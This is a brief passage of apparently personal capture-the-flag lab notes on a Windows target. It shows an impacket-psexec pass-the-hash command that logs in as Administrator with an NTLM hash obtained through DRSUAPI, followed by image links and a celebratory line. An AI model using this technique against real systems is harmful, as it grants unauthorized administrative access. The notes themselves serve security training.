 Use the hash under DRSUAPI method with psexec 

```
impacket-psexec Administrator@192.168.236.175 -hashes aad3b435b51404eeaad3b435b51404ee:8e0efd059433841f73d171c69afdda7c
```
![[PG/Windows/attachments/Pasted image 20250706144646.png]]

WOOOOOHOOOOOOO

![[PG/Windows/attachments/Pasted image 20250706144725.png]]

![[PG/Windows/attachments/Pasted image 20250706144825.png]]

![[PG/Windows/attachments/Pasted image 20250706144843.png]]
